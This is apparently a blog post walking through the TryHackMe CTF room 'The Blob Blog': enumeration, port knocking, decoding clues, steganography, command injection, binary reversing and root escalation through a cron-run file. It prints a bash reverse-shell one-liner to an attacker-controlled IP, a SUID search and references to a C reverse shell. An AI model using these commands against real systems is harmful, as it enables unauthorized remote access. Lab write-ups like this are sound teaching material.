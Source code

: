 ```yaml
---
layout: post
title: Tryhackme - The Blob Blog
date: 2020-12-25 19:00:00 +0000
category: [Tryhackme, Medium]
tags: [thm,linux,medium,reversing,reverse-shell]
---
```


---
<p>The Blob Blog is a medium level room Tryhackme room. This rooms requires a little out-of-box thinking and some reversing skills. The final objective is to get the user and root flag.</p>
<br>
![cover_image](/assets/img/tryhackme/theblobblog/1.png)

**Author** | bobloblaw
**Description** | Successfully hack into bobloblaw's computer.


## <ins>Enumeration</ins>
---
Let's start with a nmap scan.
<br>
![nmap_scan](/assets/img/tryhackme/nerdherd/nmap_scan1.png)
<br>
From the first nmap scan, there are only two ports open: ```22/ssh``` and ```80/http```. I checked the ```http``` service first and found the apache2 page.
<br>
![apache_homepage](/assets/img/tryhackme/theblobblog/2.png)
<br>

In the source page  I found two comments, one is a base64 encoded string and the second one seemed to be some sort of message.

I decoded the first comment in the following way:  ```base64``` using ```cyberchef``` > ```brainf@@k``` using ```dcode```. After decoding I got this message.
<br>
![dcode_first_comment](/assets/img/tryhackme/theblobblog/5.png)
<br>
ins>Port knocking</ins>
---
I spent some time figuring out the hint in the message and finally came to a conclusion that it is ```port knocking```.

In case you don't know what ```port knocking``` is, here is the explanation:

Port knocking: Port knocking is a stealth method to externally open ports that, by default, the firewall keeps closed. It works by requiring connection attempts to a series of predefined closed ports. With a simple port knocking method, when the correct sequence of port "knocks" (connection attempts) is received, the firewall opens certain port(s) to allow a connection.

source: [https://wiki.archlinux.org/index.php/Port_knocking](https://wiki.archlinux.org/index.php/Port_knocking)

And from the decoded message the combination is ```1,3,5```. I used nmap to make a connection with the specified ports
<br>
<pre>nmap ip-addr -p 1,3,5</pre>
<br>

Do a nmap scan again on all ports and see if there are more ports open. If not, repeat the nmap scan again (Since I didn't get it in the first try).
<br>
![nmap_scan_2](/assets/img/tryhackme/theblobblog/nmap_scan2.png)


## <ins>FTP and HTTP</ins>
---
From the nmap scan I found that ```Anonymous``` login is not enabled in the ```ftp service```. The only password that came to my mind was the string in the second comment. I decoded the ```base58``` encoded string using ```cyberchef```.
<br>
![ftp_passwd](/assets/img/tryhackme/theblobblog/6.png)
<br>
I logged into the ftp server with the username ```bob``` and found a image file. Download it using the ```get file-name``` command.
<br>
![ftp_service](/assets/img/tryhackme/theblobblog/7.png)
<br>
I tried using ```steghide``` to extract the contents of the image file but it required a password to do so. Argghhh...need to find another password.

So, I checked the ```http``` service running in the port ```445``` and found this comments in the source page.
<br>
![image_passwd](/assets/img/tryhackme/theblobblog/8.png)
<br>
Now, use ```steghide``` to extract the contents of the image file.
<br>
![steghide_extract](/assets/img/tryhackme/theblobblog/9.png)
<br>
I checked the extracted text file and found two lines: first one didn't make any sense since I thought it was ```rot``` cipher as it was not and the second one is a directory name in the webpage. After going to the directory I found the key to decipher the first one.
<br>
![bob_dir](/assets/img/tryhackme/theblobblog/10.png)
<br>
The first line that we found on the text file can be decoded with ```vigenere cipher```.
<br>
![vigenere_decode](/assets/img/tryhackme/theblobblog/11.png)
<br>
I tried to log in to ssh using the above credentials but my effort was in vain. Then, I checked the final port ```8080``` . I used ```gobuster``` to brute force the hidden directories since there was no hint in the souce page.
<br>
![gobuster_8080](/assets/img/tryhackme/theblobblog/12.png)
<br>

## <ins>Reverse Shell</ins>
---
I logged in with the credentials that we just found. I checked every link that was given in the page but found nothing interesting. 
<br>
![login_page](/assets/img/tryhackme/theblobblog/13.png)
<br>
I tried some common strings and command in the input box and saw it being reflected in the review link. So, I grabbed the ```bash reverse shell``` and used it in the input box. At first, I thought that the reverse shell would pop-up after clicking the submit button but I was wrong. After submitting the reverse shell payload link on the review link to get the reverse shell. Remember to open a ```netcat``` listener.
<br>
<pre>bash -i >& /dev/tcp/your-vpn-ip/4444 0>&1</pre>
<br>
![reverse_shell](/assets/img/tryhackme/theblobblog/15.png)
<br>
At last!!! We got the shell.


## <ins>User flag</ins>
---
I used ```find``` command to list files with permissions.
<br>
<pre>find / -perm -4000 2>/dev/null</pre>
<br>
I found this particular file out of place. So, I tried executing it with arbitary inputs but had no luck with it.
<br>
![find_output](/assets/img/tryhackme/theblobblog/16.png)
<br>
I transferred the file to my local machine and tried using ```Ghidra``` to reverse engineer it.
<br>
![ghidra_prog](/assets/img/tryhackme/theblobblog/17.png)
<br>
From the main function I understood that it requires ```6 arguments``` and it checks for the condition ```7 - whatever input parameter``` given and loops over the input parameters. So, I tried using all six patameters with the value of 6.
<br>
![blog_elf](/assets/img/tryhackme/theblobblog/20.png)
<br>
After some trial and error, I arrived at this. Use ```python pty``` to spawn a shell.
<br>
![blog_crack](/assets/img/tryhackme/theblobblog/21.png)
<br>
![user_flag](/assets/img/tryhackme/theblobblog/22.png)
<br>
Voila!! We got the user flag. Without further ado, let's move to getting root.


## <ins>Root flag</ins>
---
I checked for hints in the image files that was with the user flag but found nothing useful. So, I used ```sudo -l``` and found two binaries that can be run as root. 
<br>
<pre>(root) NOPASSWD: /bin/echo, /usr/bin/yes</pre>
<br>

After searching through ```gtfobins``` for commands I found nothing.
Hmmm....back to square one.

Like every 30 seconds or a minute this message stating that "You haven't rooted me yet? Jezz" would be displayed. I thought it would be running as a ```cronjob``` but there was no binary mentioned in the ```/etc/crontab``` file that displayed this message. So, I searched through some directories and finally found something useful in the ```/Documents``` directory.
<br>
![boring_file](/assets/img/tryhackme/theblobblog/23.png)
<br>
![content_boring_file](/assets/img/tryhackme/theblobblog/24.png)
We can use this to get the reverse shell. First, to be able to edit the text file we need the use ```stty```.
<br>
<pre>
ctrl+z
stty raw -echo;fg
reset
xterm-256color
export TERM=xterm-256color
</pre>
<br>

I grabbed the ```c reverse shell``` which can be found [here](https://gist.github.com/0xabe-io/916cf3af33d1c0592a90) and edited the ```remote addr``` and ```remote port```. Remember to open a netcat listener.

Wait for a few seconds for the reverse shell.

The root flag will be waiting for you in ```/root/root.txt``` file.


That's it folks. Happy hacking!!!

